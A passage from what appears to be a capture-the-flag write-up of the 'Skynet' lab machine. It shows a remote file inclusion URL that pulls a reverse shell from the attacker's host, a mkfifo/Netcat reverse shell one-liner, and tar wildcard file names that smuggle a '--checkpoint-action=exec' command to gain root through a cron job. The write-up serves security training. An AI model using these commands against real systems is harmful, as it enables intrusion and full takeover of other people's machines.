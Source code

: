 - Next, we can set up a  [Netcat](https://nmap.org/ncat/) listener on our attacking machine using:
```
nc -lnvp 8888
```

- Now, we can use the following syntax in the URL bar of the web browser to have the target machine pull down and execute our reverse shell script:
```
http://[target ip]/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://[attacking ip]:8887/shell.php
```

- If done correctly, we can see that we have a shell on the target machine. From here, we can stabilize it with Python.
```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

- From this point, we can navigate to the `/home/milesdyson` directory and grab the user flag.

## Privilege Escalation
- Once we grab a shell, we come in as `www-data`. We can switch users to the `milesdyson` user with the syntax `su milesdyson` and entering the password we recovered earlier for his email inbox. 
- Unfortunately, after the `milesdyson` user can't run `sudo` after we run the `sudo -l` command. 
- Doing some further manual enumeration, we can see a `backup.sh` script in the `/home/milesdyson/backup` directory, which may be some way to escalate privileges. This could also be an appropriate time to use something like [LinPEASS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) or [LinEnum](https://github.com/rebootuser/LinEnum) for automated enumeration. 
- After beeping and booping around for a while, we can see that the `backup.sh` files runs every minute via a cron job. I couldn't really figure out how to exploit this, so I had a little help from the walkthrough. The blog that explains the ins and outs of the vulnerability exploitation can be found [here](https://www.helpnetsecurity.com/2014/06/27/exploiting-wildcards-on-linux/?ref=blog.tryhackme.com) . 
- Essentially, we can add the following syntax into the `backup.sh` file, set up a [Netcat](https://nmap.org/ncat/) listener, and wait for the cron job to run. Since the cron job runs with root permissions, we should see a root shell spawn.
```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your ip>
1234 >/tmp/f" > shell.sh
touch "/var/www/html/--checkpoint-action=exec=sh shell.sh"
touch "/var/www/html/--checkpoint=1"
```
- I ran these one at a time in the `/var/www/html` directory, waited for the cron job to happen, then checked permissions again with `sudo -l`. I was given the following output:
```
User www-data may run the following commands on skynet: (root) NOPASSWD: ALL
```
- Now we can use `sudo su` to switch to root, navigate to the `/root` directory and `cat root.txt` to get the root flag.


## Rabbit Holes
### Deleting Comments through Inspector
- When looking at the source code for the Cuppa CMS service, I noticed the following:
```js
<!--
<a class="forgot_password" onclick="ShowPanel('forget')">Forgot Password?</a>
-->
```
- This commented functionality looked like it could be exploitable if the CMS system used client-side code. If I could delete the comment syntax, I could reveal the `Forgot Password?` button, send an email to the compromised inbox that we have access to, then set the password to whatever we want so we could gain further access.

